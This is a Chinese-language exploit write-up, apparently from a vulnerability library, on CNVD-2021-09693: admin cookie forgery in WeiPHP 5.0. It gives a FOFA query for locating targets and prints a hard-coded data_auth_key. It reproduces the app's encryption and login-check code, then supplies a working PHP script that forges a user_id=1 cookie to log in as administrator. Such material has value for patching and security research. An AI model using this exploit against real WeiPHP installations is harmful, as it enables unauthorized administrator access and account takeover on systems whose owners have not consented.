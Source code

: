 ```yaml
---
title: Weiphp5.0 任意用户Cookie伪造 CNVD-2021-09693
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - CMS漏洞
 - Weiphp
---
```


# Weiphp5.0 任意用户Cookie伪造 CNVD-2021-09693

## 漏洞描述

Weiphp5.0 存在管理员用户Cookie伪造，通过泄露的密钥数据，可利用加密方法来得到管理员的Cookie

## 影响版本

> [!NOTE]
>
> Weiphp <= 5.0

## 环境搭建

[weiphp5.0官方下载参考手册](https://www.weiphp.cn/doc/Initialization_database.html)

参考官方手册创建网站即可

![](/img/20210924013537477871.png)

## FOFA

> [!NOTE]
>
> app="WeiPHP"

## 漏洞复现

首先需要得到数据库配置文件中的**data_auth_key**密钥

![](/img/20210924013537661505.png)

得到这个配置文件可参照上一篇**Weiphp5.0 前台文件任意读取**

```
'data_auth_key' => '+0SeoAC#YR,Jm&c?[PhUg9u;:Drd8Fj4q|XOkx*T'
```

全局查找下使用了这个密钥的地方

![](/img/20210924013537945277.png)

找到了跟据这个密钥的加密方法和解密方法

**加密方法 think_encrypt**

```php
function think_encrypt($data, $key = '', $expire = 0)
{
    $key = md5(empty($key) ? config('database.data_auth_key') : $key);

    $data = base64_encode($data);
    $x = 0;
    $len = strlen($data);
    $l = strlen($key);
    $char = '';

    for ($i = 0; $i < $len; $i++) {
        if ($x == $l) {
            $x = 0;
        }

        $char .= substr($key, $x, 1);
        $x++;
    }

    $str = sprintf('%010d', $expire ? $expire + time() : 0);

    for ($i = 0; $i < $len; $i++) {
        $str .= chr(ord(substr($data, $i, 1)) + (ord(substr($char, $i, 1))) % 256);
    }
    return str_replace(array(
        '+',
        '/',
        '='
    ), array(
        '-',
        '_',
        ''
    ), base64_encode($str));
}
```

**解密方法 think_decrypt**

```php
function think_decrypt($data, $key = '')
{
    $key = md5(empty($key) ? config('database.data_auth_key') : $key);
    $data = str_replace(array(
        '-',
        '_'
    ), array(
        '+',
        '/'
    ), $data);
    $mod4 = strlen($data) % 4;
    if ($mod4) {
        $data .= substr('====', $mod4);
    }
    $data = base64_decode($data);
    $expire = substr($data, 0, 10);
    $data = substr($data, 10);

    if ($expire > 0 && $expire < time()) {
        return '';
    }
    $x = 0;
    $len = strlen($data);
    $l = strlen($key);
    $char = $str = '';

    for ($i = 0; $i < $len; $i++) {
        if ($x == $l) {
            $x = 0;
        }

        $char .= substr($key, $x, 1);
        $x++;
    }

    for ($i = 0; $i < $len; $i++) {
        if (ord(substr($data, $i, 1)) < ord(substr($char, $i, 1))) {
            $str .= chr((ord(substr($data, $i, 1)) + 256) - ord(substr($char, $i, 1)));
        } else {
            $str .= chr(ord(substr($data, $i, 1)) - ord(substr($char, $i, 1)));
        }
    }
    return base64_decode($str);
}
```

全局查看下使用了解密方法的地方

在文件 **application\common.php** 中含有使用解密方法的代码，用于做身份验证

```php
function is_login()
{
    $user = session('user_auth');
    if (empty($user)) {
        $cookie_uid = cookie('user_id');
        if (!empty($cookie_uid)) {
            $uid = think_decrypt($cookie_uid);
            $userinfo = getUserInfo($uid);
            D('common/User')->autoLogin($userinfo);

            $user = session('user_auth');
        }
    }
    if (empty($user)) {
        return 0;
    } else {
        return session('user_auth_sign') == data_auth_sign($user) ? $user['uid'] : 0;
    }
}
```

根据这里得到的代码，可以知道当**user_Id=1**时,会解密密钥后判断是否正确，如果正确则可以登录系统

我们在本地使用加密代码加密**user_id=1**得到的cookie则可以登录系统

```php
<?php
show_source(__FILE__);
function think_encrypt($data, $key = '', $expire = 0)
{
    $key = '+0SeoAC#YR,Jm&c?[PhUg9u;:Drd8Fj4q|XOkx*T';
    $key = md5($key);

    $data = base64_encode($data);
    $x = 0;
    $len = strlen($data);
    $l = strlen($key);
    $char = '';

    for ($i = 0; $i < $len; $i++) {
        if ($x == $l) {
            $x = 0;
        }

        $char .= substr($key, $x, 1);
        $x++;
    }

    $str = sprintf('%010d', $expire ? $expire + time() : 0);

    for ($i = 0; $i < $len; $i++) {
        $str .= chr(ord(substr($data, $i, 1)) + (ord(substr($char, $i, 1))) % 256);
    }
    return str_replace(array(
        '+',
        '/',
        '='
    ), array(
        '-',
        '_',
        ''
    ), base64_encode($str));
}

echo 'user_id = ' . think_encrypt($_GET['user_id']);
?>
```

![](/img/20210924013538178613.png)

添加**cookie: user_id=xxxxxxxx**即可成功登录

![](/img/20210924013538411962.png)

![](/img/20210924013539560063.png)

> [!NOTE]
>
> 获取密钥的方法参照上一篇审计文章